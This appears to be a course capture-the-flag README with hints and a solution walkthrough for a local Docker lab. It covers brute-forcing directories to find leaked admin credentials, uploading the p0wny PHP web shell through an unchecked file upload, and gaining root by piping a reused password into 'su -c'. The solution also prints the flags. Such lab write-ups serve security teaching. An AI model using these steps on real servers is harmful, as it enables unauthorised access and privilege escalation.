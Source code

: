 # Challenge Overview
This CTF Challenge was created as part of the Project Management course. It contains 3 flags and it is all about getting access one step at a time!

This challenge can be difficult for a student, so don't worry if you can't get it done. Also, don't forget to check the hints if you are struggling at some point.

# Getting started
First, download the challenge container.
```
docker pull ghcr.io/dbh201/challenge4:latest
```
Now, launch the container.
```
docker run -p 4443:4443 ghcr.io/dbh201/challenge4:latest
```
Access the website https://localhost:4443 and good luck!

At some point, you will use a reverse shell script in this challenge. If you are not familiar with them, we recommend one as a hint, so don't worry about it.

Also, Kali is not mandatory but recommended, since it has plenty of pre-installed tools that could be useful for this and other challenges. 

# Hints
## Flag 1
Can you get all 3 flags? Let's start by navigating to pages you are not supposed to see.
Wonder what kind of information you can find in there

<details>
    <summary>Hint 1</summary>
    Try navigating to a different directory
</details>

<details>
    <summary>Hint 2</summary>
    Some names are very common across different applications
</details>

<details>
    <summary>Hint 3</summary>
    Alright! Let's bruteforce! Kali has some cool pre-installed Web Crawlers & Directory bruteforces.
</details>

## Flag 2
How much can you do with your new admin account? There must be some way to control the forum.

<details>
    <summary>Hint 1</summary>
    You can definitely do a lot from the admin control panel!
</details>

<details>
    <summary>Hint 2</summary>
    Isn't it cool that you can even upload any file you want?
</details>

<details>
    <summary>Hint 3</summary>
    Some scripts (files) can even give you access to the system, just like magic.
</details>

<details>
    <summary>Hint 4</summary>
    give "p0wny" a try x)
</details>

## Flag 3
Now it's time to escalate...
You need to become root using your p0wny shell, but you can't seem to type in your password...


<details>
    <summary>Hint 1</summary>
    sudo will not work, so let's try switching user.
</details>

<details>
    <summary>Hint 2</summary>
    Can you believe some people reutilize their passwords?! Crazy, right?
</details>

<details>
    <summary>Hint 3</summary>
    It's all about the one-liners these days, isn't it?
</details>


# Solution
## Flag 1
Since we are supposed to look for pages that should be unacessible, we could try a few common names such as "/admin". However, some tools can do their job for us.

Dirb is a fantastic tool for that, and it is already installed in Kali. We can simply run it on our server (make sure you change the IP to match yours).
```bash

```
After checking some of the results, we will eventually find the /data directory, that contains some interest files such as "flag1.txt". 

>> IMG 1

<details>
    <summary>By checking "flag1.txt" content we will find the first flag!</summary>
    <pre><code>
    flag1: Pr0Jmngmnt15c00l

    User: admin
    Password: thispasswordishuge!

    You got the flag! What a place for a password to be, right? :P
    How much can you do with your new admin account? There must be some way to control the forum. 
</code></pre>

</details>


## Flag 2
Now that we have admin credentials, let's see what we can do with that.

First, login with your recently "stolen" credentials! Hey, they shouldn't keep it on a text file!

Exploring some of the buttons on the forum, we will eventually come across "Administration", which will take us to the Admin Control Panel.

>> IMG 2

More exploring! After checking some of the links on the Admin Control Panel, we will eventually find the "File Administration System", where we can see, download, and - most important - upload some files.

>> IMG 3

Good for us, this forum doesn't even check what files are being uploaded, so we are going to import a script!

Some scripts can grant you access to the system, and although programming one from scratch can be done, we will simply use an already-working solution.

p0wny is a php script that will allow you to get access to the server's terminal, check it out: https://github.com/flozz/p0wny-shell

The only file we will need is "shell.php". Let's upload it and then navigate to it. Don't forget to match your IP address, port, and file name. 

```
https://192.168.0.5:4443/shell.php
```

We now have access to the server's terminal as nginx's user.

>> IMG 4

Unfortunely, we can't really find the flag here, so we need to navigate on the system. Changing our directory to www-data's home directory, then listing the files there, we will see flag2.txt.

```
cd
ls
cat flag2.txt
```

<details>
    <summary>Let's see what's inside of it</summary>
    <pre><code>
    flag2: BforBodyNotBook-ofKnowledge

    You got the flag! Now it's time to escalate...

    You need to become root using your p0wny shell, but you can't seem to type in your password...
</code></pre>

</details>

## Flag 3
Let's try escalating then! Why not starting with `sudo`?

```
www-data@fc1b13fe1365:/var/www# sudo ls /root
sh: 1: sudo: not found
```

Unfortunetely, `sudo` doesn't seem to work. How about we simply try to switch user with `su`?

```
www-data@fc1b13fe1365:/var/www# su 
Password: su: Authentication failure
```

Although `su` worked, the terminal doesn't prompt us for the password, maybe there is a way to provide that password in a one-liner?

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root
Password:
www-data@fc1b13fe1365:/var/www#
```

So this time we got no `Authentication failure`, so lucky us that the owner of this system decided to reuse his password. But if you check the user, it is still the same. Let's see if we can pass any command to that user.

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls"
Password: flag3.txt
```

The prompt is definitely a bit weird, but we just listed items on root. Let's also read it with `cat`!

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls; cat flag3.txt"
Password: flag3.txt
flag3: plzM477letU5pass

You got the last flag! Wasn't that easy?
```

Hope you enjoyed this challenge as much as we did!


# More Studies
If you want to go deeper into what you practiced in this Challenge, check some recommendations.

## Reverse Shell scripts
A reverse shell script was used in this challenge to gain access to the target machine. Although it was used to simulate an attack, these scripts can be used with no ill intentions.

Besides that, reverse shell scripts can be programmed in different languages, and even customized to your own project. Check some by yourself!

## Brute force tools
Bruteforce is a well known strategy that consists in trying over and over different combinations until you get the right one.

Although we use a directory brute force in this Challenge, there are many other types of brute force tools, the most common being password crackers. But also give it a try to explore other tools that interact with DNS and even biometrics. 

